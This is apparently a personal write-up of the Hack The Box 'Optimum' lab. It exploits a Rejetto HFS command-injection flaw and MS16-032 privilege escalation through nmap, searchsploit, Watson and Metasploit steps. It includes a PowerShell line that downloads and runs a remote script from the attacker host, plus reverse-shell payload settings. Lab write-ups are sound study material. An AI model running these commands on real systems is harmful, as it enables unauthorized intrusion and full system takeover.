

+++

title = "Optimum"

+++

NMAP

```
nmap -sV -sC 10.10.10.8  
 
Starting Nmap 7.70 ( https://nmap.org ) at 2019-02-25 00:19 EST                                     
Nmap scan report for 10.10.10.8                                                                     
Host is up (0.042s latency).                                                                       
Not shown: 999 filtered ports                                                                       
PORT   STATE SERVICE VERSION                                                                       
80/tcp open  http    HttpFileServer httpd 2.3                                                       
|_http-server-header: HFS 2.3                                                                       
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 14.89 seconds

```

hfs is vulnerable to a cmd injection vuln. That will allow us to Invoke a nishang shell




SEARCHSPLOIT

```
searchsploit hfs
--------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                       |  Path
                                                                                                                     | (/usr/share/exploitdb/)
--------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Apple Mac OSX 10.4.8 - DMG HFS+ DO_HFS_TRUNCATE Denial of Service                                                    | exploits/osx/dos/29454.txt
Apple Mac OSX 10.6 - HFS FileSystem (Denial of Service)                                                              | exploits/osx/dos/12375.c
Apple Mac OSX 10.6.x - HFS Subsystem Information Disclosure                                                          | exploits/osx/local/35488.c
Apple Mac OSX xnu 1228.x - 'hfs-fcntl' Kernel Privilege Escalation                                                   | exploits/osx/local/8266.txt
FHFS - FTP/HTTP File Server 2.1.2 Remote Command Execution                                                           | exploits/windows/remote/37985.py
Linux Kernel 2.6.x - SquashFS Double-Free Denial of Service                                                          | exploits/linux/dos/28895.txt
Rejetto HTTP File Server (HFS) - Remote Command Execution (Metasploit)                                               | exploits/windows/remote/34926.rb
Rejetto HTTP File Server (HFS) 1.5/2.x - Multiple Vulnerabilities                                                    | exploits/windows/remote/31056.py
Rejetto HTTP File Server (HFS) 2.2/2.3 - Arbitrary File Upload                                                       | exploits/multiple/remote/30850.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (1)                                                  | exploits/windows/remote/34668.txt
Rejetto HTTP File Server (HFS) 2.3.x - Remote Command Execution (2)                                                  | exploits/windows/remote/39161.py
Rejetto HTTP File Server (HFS) 2.3a/2.3b/2.3c - Remote Command Execution                                             | exploits/windows/webapps/34852.txt
--------------------------------------------------------------------------------------------------------------------- ----------------------------------------
```

So First i got a nishang shell then i moved over to a nc.exe shell using this really cool trick 0xdf used in his devel writeup. https://0xdf.gitlab.io/2019/03/05/htb-devel.html#shell-as-web	. after that im going to run Watson and find an exploit. 

```
systeminfo
```

its running on x64-baseed pc using

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\CDF 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4 
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4.0 
```

```
cd C:\Users>c:\Windows\Microsoft.NET\Framework
dir /A:D
```


i will compile it in 4.0 .net. 0xdf has a great guide for compiling watson & ippsec has a video on it.

https://0xdf.gitlab.io/2019/03/05/htb-devel.html#Watson

```
\\10.10.14.49\share\Watson-net4-64base.exe
  __    __      _
 / / /\ \ \__ _| |_ ___  ___  _ __
 \ \/  \/ / _` | __/ __|/ _ \| '_ \
  \  /\  / (_| | |_\__ \ (_) | | | |
   \/  \/ \__,_|\__|___/\___/|_| |_|

                           v0.1

                  Sherlock sucks...
                   @_RastaMouse

 [*] OS Build number: 9600
 [*] CPU Address Width: 64
 [*] Process IntPtr Size: 8
 [*] Using Windows path: C:\WINDOWS\System32

  [*] Appears vulnerable to MS15-051
   [>] Description: An EoP exists due to improper object handling in the win32k.sys kernel mode driver.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms15_051_client_copy_image.rb
   [>] Notes: None.

  [*] Appears vulnerable to MS15-076
   [>] Description: Local DCOM DCE/RPC connections can be reflected back to a listening TCP socket allowing access to an NTLM authentication challenge for LocalSystem, which can be replayed to the local DCOM activation service to elevate privileges.
   [>] Exploit: https://www.exploit-db.com/exploits/37768/
   [>] Notes: None.

  [*] Appears vulnerable to MS15-078
   [>] Description: An EoP exists due to a pool based buffer overflow in the atmfd.dll driver when parsing a malformed font.
   [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms15_078_atmfd_bof.rb
   [>] Notes: None.
  [*] Appears vulnerable to MS16-032
   [>] Description: An EoP exists due to a lack of sanitization of standard handles in Windows' Secondary Logon Service.
   [>] Exploit: https://github.com/FuzzySecurity/PowerShell-Suite/blob/master/Invoke-MS16-032.ps1
   [>] Notes: None.

  [*] Appears vulnerable to MS16-034
   [>] Description: An EoP exist when the Windows kernel-mode driver fails to properly handle objects in memory.
   [>] Exploit: https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-034
   [>] Notes: None.

 [*] Finished. Found 5 vulns :)
ERROR> C:\WINDOWS\System32\drivers\mrxdav.sys
ERROR> C:\WINDOWS\System32\win32kfull.sys
ERROR> C:\WINDOWS\System32\pcadm.dll
ERROR> C:\WINDOWS\System32\coremessaging.dll


```

I could never get this to work i tried a bunch of different ways. ippsec said that the other ms16032 exploit out there requires additional modification to work. but the empire framework offers an easier solution. \\10.10.14.49\share\Invoke-MS16032.ps1

add this at the end of ms16032

```
Invoke-MS16032 -Command "iex(New-Object Net.Webclient).downloadstring('http://10.10.14.49/sploit.ps1')"
```

then invoke it, after you load the payload you can call the funtions with Invoke-MS16032

METASPLOIT

i couldn't get it to work so on to metasploit.

```
search rejetto
use windows/http/rejetto_hfs_exec
```

Make sure burp is running.

```
options 
Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting      Required  Description
   ----       ---------------      --------  -----------
   HTTPDELAY  10                   no        Seconds to wait before terminating web server
   Proxies    http:127.0.0.1:8080  no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.10.10.8           yes       The target address range or CIDR identifier
   RPORT      80                   yes       The target port (TCP)
   SRVHOST    10.10.14.49          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8088                 yes       The local port to listen on.
   SSL        false                no        Negotiate SSL/TLS for outgoing connections
   SSLCert                         no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                    yes       The path of the web application
   URIPATH                         no        The URI to use for this exploit (default is random)
   VHOST                           no        HTTP server virtual host


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.49      yes       The listen address (an interface may be specified)
   LPORT     4446             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic

```

NEXT

First you need to load the regular meterpreter x86 to find the vuln then move to x64 to run the exploit. set lport to something else. set target 1 will run in x64 mode.

```
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 9017
```

RUN

exit the session with crtl + z save session remember the session number.

```
search ms16_032
windows/local/ms16_032_secondary_logon_handle_privesc
```

options

target 1 to change to x64, session number, set the lport to something different than the meterpreter shell.

```
set target 1
set lport 9019
set session 2
run
```


```
Module options (exploit/windows/local/ms16_032_secondary_logon_handle_privesc):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION  3                yes       The session to run this module on.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.49      yes       The listen address (an interface may be specified)
   LPORT     4446             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Windows x64
```

Then it hangs. 